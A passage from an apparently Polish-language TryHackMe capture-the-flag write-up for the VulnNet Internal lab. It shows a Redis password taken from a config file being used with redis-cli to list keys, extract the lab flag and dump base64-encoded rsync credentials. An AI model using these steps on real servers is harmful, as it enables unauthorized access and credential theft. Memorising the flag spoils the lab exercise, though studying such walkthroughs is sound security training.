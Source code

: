 ```
┌──(kali㉿kali)-[~/Desktop/TryHackMe/VulnNe_Internal]
└─$ cat redis.conf 
...
################################# REPLICATION #################################
...
requirepass "B65Hx562F@ggAZ@F"
...

```

4. Instaluję ```redis``` i łaczę się z maszyną za pomocą usługi. Przeglądam i pobieram wszystklie dane. W plikach ```internal flag``` i ```authlist``` znajduję flagę i hash-a. 

```
┌──(root㉿kali)-[~]
└─# sudo apt-get install redis-tools
┌──(kali㉿kali)-[~/Desktop/TryHackMe]
└─$ redis-cli -h <IP_atakowanej_masz> -a "B65Hx562F@ggAZ@F"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.161.43:6379> KEYS *
1) "tmp"
2) "internal flag"
3) "int"
4) "marketlist"
5) "authlist"

10.10.161.43:6379> get "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
10.10.161.43:6379> get "tmp"
"temp dir..."
10.10.161.43:6379> get "temp dir..."
(nil)
10.10.161.43:6379> get "int"
"10 20 30 40 50"
10.10.161.43:6379> get "authilist"
(nil)
10.10.161.43:6379> LRANGE "authlist" 0 999
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```